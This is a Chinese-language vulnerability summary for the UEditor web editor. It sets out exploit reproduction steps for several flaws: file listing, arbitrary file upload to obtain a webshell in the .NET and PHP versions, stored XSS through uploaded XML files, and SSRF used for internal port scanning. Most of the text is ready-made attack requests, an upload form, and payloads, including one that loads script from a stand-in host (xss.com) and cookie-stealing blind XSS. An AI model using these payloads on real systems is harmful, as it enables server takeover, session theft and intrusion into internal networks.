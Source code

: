 # Ueditor编辑器漏洞总结

## 漏洞描述

UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。

界面如下：

![ueditor-1](images/ueditor-1.webp)

## 漏洞复现

### 0x01 文件读取漏洞

file 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listfile
```

image 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
```

### 0x02 .net版本 任意文件上传

只适用于 .net 版本，存在于`1.4.3.3`、`1.5.0`和`1.3.6`版本中。

准备一台服务区存放图片马或者需要上传的文件，本地构造一个 `html` 页面用于上传使用

```html
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">

    <p>shell addr: <input type="text" name="source[]" /></p>

    <input type="submit" value="Submit" />

</form>
```

![ueditor-2](images/ueditor-2.webp)

- `shell addr` 处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为 `aspx`

```
http://xxxx/1.gif?.aspx
```

- 成功上传返回上传路径，可直连 getshell

![ueditor-3](images/ueditor-3.webp)



### 0x03 php版本文件上传

poc：

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

### 0x03 存储型xss

```
<html>

<head></head>

<body>
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>

</html>

盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

上传点：

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

将`uploadimage`类型改为`uploadfile`，修改文件后缀名为`.xml`：

![ueditor-4](images/ueditor-4.webp)

上传成功，访问成功弹框：

![ueditor-5](images/ueditor-5.webp)

#### 一些常见的xml弹窗poc

弹窗xss：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
```

url跳转：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载js：

```
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

### 0x04 ssrf

该漏洞存在于`1.4.3`的`jsp版本`中，`1.4.3.1`版本已经修复。

该版本ueditor的ssrf触发点：

```php
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

```
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

内网端口探测：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

判断该地址对应的主机端口是否开放：

- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。

```
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。

```
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。

```
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：

```
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```

